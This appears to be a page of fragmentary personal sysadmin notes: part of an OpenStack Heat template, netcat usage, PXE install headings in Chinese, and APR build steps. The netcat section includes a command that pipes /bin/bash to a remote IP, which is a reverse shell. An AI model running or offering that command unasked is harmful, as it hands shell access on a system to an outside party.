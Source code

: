         - remote_ip_prefix: 0.0.0.0/0
          protocol: tcp
          port_range_min: 80
          port_range_max: 80
        - remote_ip_prefix: 0.0.0.0/0
          protocol: icmp

outputs:
  Login_URL:
      description: The web server URL
      value:
        str_replace:
          template: http://host/check-db.php
          params:
            host: { get_attr: [ web_server_floating_ip, floating_ip_address ] }
  web_server_private_ip:
    description: IP address of Web Server in private network
    value: { get_attr: [ web_server, first_address ] }
  web_server_public_ip:
    description: Floating IP address of Web Server in public network
    value: { get_attr: [ web_server_floating_ip, floating_ip_address ] }
  db_server_private_ip:
    description: IP address of DB Server in private network
    value: { get_attr: [ db_server, first_address ] }
  db_server_public_ip:
    description: Floating IP address of DB Server in public network
    value: { get_attr: [ db_server_floating_ip, floating_ip_address ] }


----------------------------------------


nc
server
nc -nvv -l -p [port]

clinet
nc [ip] [port] -e /bin/bash


----------------------------------------
Day 0 基礎篇: PXE自動安裝
Day 1 進階篇: PXE自動安裝並動態調整磁區大小


----------------------------------------

apr 1.5.4
./configure --help

./configure	預設安裝/usr/local/
make
make install

apr-util-1.5.4
./configure --with-apr=/usr/local/apr 指定路徑
make
make install


[gitlab]: eric-ci-test
[false]: true
[true]: true